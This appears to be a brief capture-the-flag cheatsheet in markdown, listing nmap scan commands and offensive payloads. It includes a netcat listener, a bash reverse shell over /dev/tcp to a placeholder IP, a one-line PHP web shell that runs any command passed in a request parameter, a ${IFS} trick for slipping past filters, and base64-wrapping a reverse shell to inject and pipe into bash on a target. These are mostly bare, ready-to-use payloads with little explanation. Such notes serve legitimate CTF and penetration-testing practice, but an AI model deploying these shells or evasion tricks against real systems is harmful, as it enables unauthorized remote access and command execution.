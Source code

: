 # docs-ctf-cheatsheet
## NMAP
```bash
nmap -sC -sV -oA nmap/initial IPADRESS
nmap -p- -T5 -sC -sV -oA nmap/second IPADRESS
nmap -p443 --script ssl-enum-ciphers IPADRESS
```
> -A : Enables OS Detection, Version Detection, Script Scanning and Traceroute all in one\
-p- : Enables scanning across all ports, not just the top 1000\
-sC : Scan with default NSE scripts. Considered useful for discovery and safe\
-sV : Attempts to determine the version of the service running on port\
-oA [dir] all output to [dir]

## REVERSE SHELL
1. setup listener on my machine:
nc -lvnp 8081
2. go to\
https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md\
http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet\
and try them out on target machine

### simple bash reverse shell
```bash
bash -i >& /dev/tcp/10.0.0.1/4242 0>&1
```

### simple php rce
```php
<?php
echo("Hello there!");
system($_REQUEST['cmd']);
?>
```

## ENCODING STUFF

### replace bad char
>see https://book.hacktricks.xyz/linux-unix/useful-linux-commands/bypass-bash-restrictions
```bash
space : ${IFS}
```

### base 64 encoding
craft encoded rs: `echo -n "[REVERSE SHELL]" | base64 -w 0`\
inject encoded rs on target: `echo -n [ENCODED REVERSE SHELL] | base64 -d | bash`
> sometimes base64 encoding conatins + chars for spaces, if so add more spaces to remove + chars (sice they might be bad chars)\
> this also works for ther payloads (not only rs)
